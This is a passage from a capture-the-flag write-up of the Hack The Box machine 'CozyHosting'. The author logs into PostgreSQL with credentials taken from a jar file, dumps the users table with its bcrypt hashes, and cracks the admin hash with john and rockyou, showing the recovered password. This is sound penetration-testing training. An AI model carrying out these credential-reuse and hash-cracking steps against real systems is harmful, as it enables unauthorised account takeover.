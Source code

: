 - A friendly reminder, we found the credentials to connect to PostgreSQL in the jar file we found earlier (:v). Let's try connecting to it:

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres -W 
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

- List all databases:

```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
```

- Connect to `cozyhosting`:

```
postgres=# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

- It should be easy to crack this password with `john`:

```
(kali㉿kali)-[~/htb/boxes/easy/cozy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited
```
